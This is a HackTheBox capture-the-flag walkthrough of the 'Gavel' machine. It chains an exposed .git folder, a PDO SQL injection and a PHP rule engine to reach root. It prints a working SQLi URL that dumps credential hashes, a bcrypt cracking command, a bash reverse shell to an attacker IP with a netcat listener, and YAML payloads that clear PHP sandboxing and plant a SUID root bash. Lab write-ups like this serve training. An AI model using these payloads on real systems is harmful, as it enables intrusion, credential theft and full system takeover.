









# 🧠 HackTheBox - Gavel Walkthrough
> **Writeup by [@Certifa](https://github.com/Certifa)**
> 🗓️ HTB Machine: *Gavel* • 🧠 Difficulty: Medium • 🐧
 Linux




---


## 📚 Table of Contents

- [🧠 HackTheBox - Gavel Walkthrough](#-hackthebox---gavel-walkthrough)
  - [📚 Table of Contents](#-table-of-contents)
  - [🔎 Overview](#-overview)
  - [📖 About](#-about)
  - [⚡ TL;DR](#-tldr)
  - [🖥️ SETUP / NOTES](#️-setup--notes)
  - [🚀 RECON](#-recon)
  - [🔍 ENUMERATION](#-enumeration)
    - [Discovering Hidden Endpoints with ffuf](#discovering-hidden-endpoints-with-ffuf)
    - [Dumping the Git Repository](#dumping-the-git-repository)
    - [Understanding the SQL Injection Through Source Code](#understanding-the-sql-injection-through-source-code)
  - [💥 EXPLOIT](#-exploit)
    - [Crafting the SQL Injection Payload](#crafting-the-sql-injection-payload)
    - [Why This Works:](#why-this-works)
    - [Executing the Attack](#executing-the-attack)
    - [Cracking the Hash with John](#cracking-the-hash-with-john)
    - [Accessing the Admin Panel](#accessing-the-admin-panel)
    - [Triggering the Payload](#triggering-the-payload)
  - [🛡️ PRIVILEGE ESCALATION](#️-privilege-escalation)
    - [Step 1 – Fixing php.ini to unlock system()](#step-1--fixing-phpini-to-unlock-system)
    - [Step 2 – Creating a SUID root bash](#step-2--creating-a-suid-root-bash)
  - [📎 Final thoughts](#-final-thoughts)
  - [📘 LESSONS LEARNED](#-lessons-learned)
  - [📚 REFERENCES](#-references)

---

## 🔎 Overview

**Machine:** Gavel

**Difficulty:** Mediu

**OS:** Linux

**Points:** 30

**Status:** Active, Season 9 (redacted content where necessary)

---

## 📖 About
Gavel is a recently released Medium-difficulty Linux box on HackTheBox. The scenario revolves around a "bidding" website, with typical enum > exploit > escalation steps focused on web application flaws and insecure automation.

---

## ⚡ TL;DR
- Two open ports: 22 (SSH), 80 (HTTP)
- Main vulnerability: SQL injection in inventory.php
- Credential dump for admin via SQLi
- Reverse shell via admin's web interface
- Privilege escalation by submitting a malicious YAML to a local utility
- SUID bash binary for root access

## 🖥️ SETUP / NOTES
Before starting, it’s smart to add `gavel.htb` to your `/etc/hosts` for easier local DNS—which saves time typing IPs and lets you use tools like Burp Suite more efficiently. This walkthrough will show practical commands and payloads as used against the target.

---

## 🚀 RECON
Like every good engagement, things start with Nmap, I ran my own script `nmapfullscan`. You can find it on my github, or ofcourse use `nmap -p- -sC -sV <ip>`



We see that only 2 ports are open, `22` and `80`. With this information we can put `http://gavel.htb` in the /etc/hosts with `sudo nano /etc/hosts` so we can visit the website.

---

## 🔍 ENUMERATION


Gavel greets you with its own functional auction web app. The landing page pushes you to register and create an account, so you follow the flow testing for the usual suspects: weak endpoints, password resets etc. But a proper enumeration phase requires more than just clicking around; you need to systematically discover hidden endpoints.

### Discovering Hidden Endpoints with ffuf

Starting with a fuzzing pass using `ffuf` (or similar tools like `gobuster`), you can rapidly scan for common PHP files and directories:

- `ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://gavel.htb/FUZZ -e .php`

This reveals several interesting paths:

- `/admin.php — The admin dashboard (requires authentication)`

- `/inventory.php — User inventory management`

- `/.git/ — The goldmine: an exposed Git repository`

The presence of `/.git/` is critical. Developers sometimes forget to remove version control folders from production, and this oversight exposes the entire source history.

### Dumping the Git Repository
With `/.git/` accessible, you can reconstruct the source code using tools like [`git-dumper`](https://github.com/arthaud/git-dumper):

- `git-dumper http://gavel.htb/.git/ ./gavel-source`

Once you have the Git history, you can inspect commits, branches, and most importantly the source code of the application.

### Understanding the SQL Injection Through Source Code

Now, reading through the actual PHP files (especially `inventory.php`), the vulnerability becomes crystal clear:
```php
$sortItem = $_POST['sort'] ?? $_GET['sort'] ?? 'item_name';
$userId = $_POST['user_id'] ?? $_GET['user_id'] ?? $_SESSION['user']['id'];
$col = "`" . str_replace("`", "", $sortItem) . "`";
$itemMap = [];
$itemMeta = $pdo->prepare("SELECT name, description, image FROM items WHERE name = ?");
try {
    if ($sortItem === 'quantity') {
        $stmt = $pdo->prepare("SELECT item_name, item_image, item_description, quantity FROM inventory WHERE user_id = ? ORDER BY quantity DESC");
        $stmt->execute([$userId]);
    } else {
        $stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");
        $stmt->execute([$userId]);
    }
    $results = $stmt->fetchAll(PDO::FETCH_ASSOC);
} catch (Exception $e) {
    $results = [];
}
```
By studying the code directly, you understand:

- Why `user_id` is vulnerable: The variable is passed directly to `execute()` without being parameterized. Even though `$col` uses prepared statements, `$userId` is exposed to injection through the parameter binding.

- The backtick handling: The code tries to sanitize `$sortItem` by removing backticks (`str_replace("`", "", $sortItem)), `but this only protects the sort column`, **not** the `user_id`.

- The logic flow: Depending on the `sort` parameter, different SQL queries fire but both are vulnerable because `$userId` ultimately gets injected into the WHERE clause without proper escaping.


Now, let's hop on back to `gavel.htb` and make an account to play around with `/inventory.php`


---

## 💥 EXPLOIT


### Crafting the SQL Injection Payload

Now that you understand the vulnerability from reading the source code, it's time to exploit it. The goal is to dump the user credentials from the database specifically targeting the `users` table where usernames and password hashes are stored.

The payload you'll craft looks like this:

```txt
http://gavel.htb/inventory.php?user_id=x`+FROM+(SELECT+CONCAT(username,0x3a,password)+AS+`%27x`+from+users)y;--+-&sort=\?;--+-%00
```

Let's break down what's happening here, piece by piece:

**The Payload Anatomy:**

```txt
user_id=x` — We start by closing the expected identifier with a backtick. The x` is just a placeholder column name that we'll use later in our subquery.
```
```
+FROM+(SELECT+CONCAT(username,0x3a,password)+AS+%27x+from+users)y; Here's where the magic happens. We inject a subquery that pulls username and password from the users table, concatenating them with a colon (0x3a is the hex code for :). The %27 is a URL-encoded single quote ('), which helps the alias work correctly within the SQL syntax. We alias this result as 'x so it matches our structure.
```
```
--+- — This is an SQL comment sequence. The -- starts the comment, and +- acts as padding/spacing to ensure the comment properly terminates the rest of the original query.
```
```
&sort=\?;--+-%00 — The sort parameter adds additional confusion to the parser. The backslash escapes the question mark, the --+- comments out anything trailing, and %00 (null byte) can bypass certain parser quirks or WAF filters.
```
### Why This Works:


The original query was supposed to be:

``SELECT `item_name` FROM inventory WHERE user_id = ? ORDER BY item_name ASC``

But with your injection, , it transforms into:

``SELECT x` FROM (SELECT CONCAT(username, 0x3a, password) AS 'x' FROM users) y; -- ORDER BY item_name ASC``

The database executes your subquery, pulls credentials, and displays them in the results. The comments (`--`) safely discard the trailing ``ORDER BY`` clause.

### Executing the Attack

Go to your browser, and put the url with the sqli in.



We got the user `auctioneer` with a hash!
The `$2y$` prefix confirms ``bcrypt`` hashing a computationally expensive algorithm designed to resist brute force attacks. However, weak passwords can still be cracked, especially against common wordlists.

### Cracking the Hash with John
 Save the hash and to a file, let's call it `auctioneer.hash`.

Now lets use ``john`` with the bcrypt format and the ``rockyou.txt`` wordlist:

- `john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt auctioneer.hash`

John will iterate through the wordlist, hashing each password with bcrypt and comparing it to your target hash. If the password is weak or common, John finds it quickly.

Now that you have the password for `auctioneer`, let's login with it on the website!



### Accessing the Admin Panel

Once logged in, navigate to the admin section. You'll notice new options appear: the ability to edit auction rules and edit auction messages for live bidding events. This is your attack surface.

The admin panel allows you to set custom PHP code in the "edit rule" and "edit message" fields. These fields are executed server-side, making them perfect for command injection.


In the edit rule field (or edit message field), paste:

- `system('bash -c "bash -i >& /dev/tcp/YOUR_IP/4444 0>&1"'); return true;`

The website refreshes every second so, have your command ready to paste it in the `edit rule:` and click `Edit` quickly.

On your attacker machine, open a netcat listener on port 4444:

- `nc -lvnp 4444`

### Triggering the Payload

Now, the crucial step: go to the bidding section and place a bid on an auction where you've edited the rules or message. When the system processes your bid, it executes the PHP code in the rule field, triggering your reverse shell.


You now have a reverse shell as the www-data user (the web server process). From here, you can explore the system if you want before you `su` to `auctioneer` with ofcourse his password.

- `su auctioneer`


We got user!

---

## 🛡️ PRIVILEGE ESCALATION
With a shell as ``auctioneer``, I started looking for anything related to the auction backend logic. In ``/opt/gavel/`` I found a template file called ``sample.yaml``, which showed how new auctions are defined and how the ``rule`` field is evaluated:

```
item:
  name: "Dragon's Feathered Hat"
  description: "A flamboyant hat rumored to make dragons jealous."
  image: "https://example.com/dragon_hat.png"
  price: 10000
  rule_msg: "Your bid must be at least 20% higher than the previous bid and sado isn't allowed to buy this item."
  rule: "return ($current_bid >= $previous_bid * 1.2) && ($bidder != 'sado');"
```
From this I realised that the auction daemon is reading YAML files, parsing the rule field as PHP, and then executing it as part of the bidding logic. Since this daemon runs as root, this “rule engine” is effectively a code execution primitive.

### Step 1 – Fixing php.ini to unlock system()

I then looked at the custom PHP configuration used by the daemon in ``/opt/gavel/.config/php/php.ini`` and noticed that ``open_basedir`` and ``disable_functions`` were set, which restricted dangerous functions like ``system``. To remove that sandbox, I decided to overwrite the php.ini using the same YAML rule mechanism.

As ``auctioneer``, I created the following YAML in my home directory:

```
cat << 'EOF' > fix_ini.yaml
name: fixini
description: fix php ini
image: "x.png"
price: 1
rule_msg: "fixini"
rule: file_put_contents('/opt/gavel/.config/php/php.ini', "engine=On\ndisplay_errors=On\nopen_basedir=\ndisable_functions=\n"); return false;
EOF
```
Then I submitted it with the auction utility:

- `/usr/local/bin/gavel-util submit /home/auctioneer/fix_ini.yaml`

After the item appeared in the web UI, I placed a bid on that “fixini” auction to trigger the rule. Back on the box, I checked the config:

- `cat /opt/gavel/.config/php/php.ini`

I made sure it looked exactly like this:

```
engine=On
display_errors=On
open_basedir=
disable_functions=
```
At this point, ``open_basedir`` was empty and ``disable_functions`` was cleared, so the PHP rules executed by the daemon were allowed to call functions like ``system``.

### Step 2 – Creating a SUID root bash

With the sandbox gone, I prepared a second YAML file to create a SUID copy of ``/bin/bash`` owned by root:

```
cat << 'EOF' > rootshell.yaml
name: rootshell
description: make suid bash
image: "x.png"
price: 1
rule_msg: "rootshell"
rule: system('cp /bin/bash /opt/gavel/rootbash; chmod u+s /opt/gavel/rootbash'); return false;
EOF
```

Again, I submitted it via the same utility:

- `/usr/local/bin/gavel-util submit /home/auctioneer/rootshell.yaml`

Once the corresponding auction was visible in the web interface, I bid on it to trigger the rule. That caused the daemon (running as root) to execute the ``system()`` call and create ``/opt/gavel/rootbash`` with the SUID bit set.

Back on the shell I verified:

- `ls -l /opt/gavel/rootbash`

I was looking for a line like:

- `-rwsr-xr-x 1 root root ... /opt/gavel/rootbash`

The ``s`` in the user permission field confirmed that the binary was SUID-root. From there, getting a root shell was trivial:

- `/opt/gavel/rootbash -p`
- `id`



From there you can basically

- `cat /root/root.txt`


---

## 📎 Final thoughts
Gavel was a really fun box because it forced me to chain several “classic” issues together instead of relying on one flashy bug. I had to go from basic port scanning, to hidden path discovery, to source code review via ``.git``, then into SQL injection, authenticated code execution, and finally a misused YAML rule engine to get root.

What stood out most is how realistic this feels: none of the individual pieces are exotic, but once you put them together, a simple auction platform turns into full system compromise. It’s a good reminder that secure coding, safe deployment (no exposed ``.git``), and hardened service configs all matter just as much as patching high‑severity CVEs.


---

## 📘 LESSONS LEARNED
- Never deploy ``.git`` to production
Having the full Git history online made it trivial to review the PHP source and spot the SQL injection cleanly, instead of spending a long time blindly fuzzing the app.

- Prepared statements are useless if you still trust user input
The code tried to use prepared statements, but the way ``user_id`` and the dynamic column name were handled still allowed SQL injection. Input validation and strict query building are essential, not just “using PDO”.

- “Rule engines” are code execution in disguise
Once I realised the auction rules were executed as PHP by a root‑run daemon, that feature effectively became a built‑in RCE and privesc primitive.

- Sandboxing is only as strong as its configuration
The custom ``php.ini`` tried to restrict ``open_basedir`` and ``disable_functions``, but because it was writable via the same rule engine, I could completely remove those protections and then call ``system`` freely.​

- SUID binaries are still a simple and powerful privesc trick
Dropping a SUID copy of ``/bin/bash`` is an old technique, but it reliably turned that root‑level ``system()`` into a persistent, easy‑to-use root shell.​

---

## 📚 REFERENCES
These resources are useful if you want to dive deeper into the concepts used in this box:

- [Reverse shells](https://www.aquasec.com/cloud-native-academy/cloud-attacks/reverse-shell-attack/) and how they work (general concepts and examples of reverse shell attacks).
- [Linux privilege escalation basics](https://delinea.com/blog/linux-privilege-escalation) and common patterns such as abusing misconfigured services and SUID binaries.
- Background reading on [remote code execution](https://www.vaadata.com/blog/rce-remote-code-execution-exploitations-and-security-tips/) in web applications and why features like dynamic “rules” are dangerous when not sandboxed properly.
- [My own tooling and writeups](https://github.com/Certifa) (including nmapfullscan and other HTB content) on GitHub, which I also used during this engagement.
- [SQLi Injection in PDO'S](https://slcyber.io/research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/)
- [More information about the flaw](https://gbhackers.com/php-pdo-flaw/)
